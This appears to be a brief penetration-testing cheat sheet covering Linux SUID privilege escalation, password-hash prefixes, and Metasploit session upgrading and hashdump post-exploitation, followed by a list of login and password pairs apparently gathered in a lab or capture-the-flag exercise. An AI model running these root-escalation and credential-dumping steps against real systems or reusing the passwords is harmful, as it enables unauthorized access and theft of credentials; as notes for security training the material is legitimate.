 > SUID BINARIES
Set Owner User ID
```bash
$ strings binary

if the binary is calling another binary, you can delete that and replace the binary being called with /bin/bash
```

DUMPING LINUX HASHES 
$6 - sha512
$5 - sha256

$2 - blowfish
$1 - md5
```bash
gain a shell and upgrade to meterpreter
sessions -u $ID


MSF LINUX HASHDUMP
> search hashdump
> use post/linux/gather/hashdump
> set session $ID
```


Scap book
```bash
 rooty   password: pineapple
  login: sysadmin   password: hailey
  login: demo   password: butterfly1
  login: auditor   password: xbox360
  login: anon   password: 741852963
  login: administrator   password: password1
 login: diag   password: secret
```